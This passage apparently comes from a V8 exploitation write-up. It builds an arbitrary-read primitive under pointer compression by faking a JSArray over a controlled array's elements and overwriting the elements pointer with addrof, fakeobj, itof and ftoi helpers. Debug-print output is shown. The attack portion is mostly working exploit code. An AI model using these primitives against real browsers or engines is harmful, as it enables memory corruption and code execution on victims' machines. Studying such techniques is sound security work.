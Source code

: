 Once again, we're gonna try and gain an arbitrary read by creating a fake array object that we can control the `elements` pointer for. The offsets are gonna be slightly different due to pointer compression. As we saw earlier, the first 8 bytes are the compressed pointer for `properties` and `map`, while the second 8 bytes are the smi for `length` and then the compressed pointer for `elements`. Let's create an initial `arb_rw_array` like before, and print out the layout:

```javascript
var arb_rw_arr = [float_map, 1.5, 2.5, 3.5];
console.log("[+] Address of Arbitrary RW Array: 0x" + addrof(arb_rw_arr).toString(16));

%DebugPrint(arb_rw_arr)
```

```javascript
[+] Address of Arbitrary RW Array: 0x8085a01
DebugPrint: 0x161c08085a01: [JSArray]
 - map: 0x161c082439f1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x161c0820ab61 <JSArray[0]>
 - elements: 0x161c080859d9 <FixedDoubleArray[4]> [PACKED_DOUBLE_ELEMENTS]
 - length: 4
 - properties: 0x161c0804222d <FixedArray[0]>
 - All own properties (excluding elements): {
    0x161c080446d1: [String] in ReadOnlySpace: #length: 0x161c0818215d <AccessorInfo> (const accessor descriptor), location: descriptor
 }
 - elements: 0x161c080859d9 <FixedDoubleArray[4]> {
           0: 4.7638e-270
           1: 1.5
           2: 2.5
           3: 3.5
 }
```

The leak works perfectly. Once again, `elements` is ahead of the `JSArray` itself.

If we want to try and fake an array with compression pointers then we have the following format:

* 32-bit pointer to properties
* 32-bit pointer to map
* smi for `length`
* 32-bit pointer to `elements`

The first ones we have already solved with `float_map`. We can fix the latter like this:

```javascript
function arb_read(compressed_addr) {
    // tag pointer
    if (compressed_addr % 2n == 0)
        compressed_addr += 1n;

    // place a fake object over the elements of the valid array
    // we know the elements array is placed just ahead in memory, so with a length
    // of 4 it's an offset of 4 * 0x8 = 0x20 
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // overwrite `elements` field of fake array
    // size of 2 and elements pointer
    arb_rw_arr[1] = itof((0x2n << 33n) + compressed_addr);

    // index 0 will returns the arbitrary read value
    return ftoi(fake[0]);
}
```
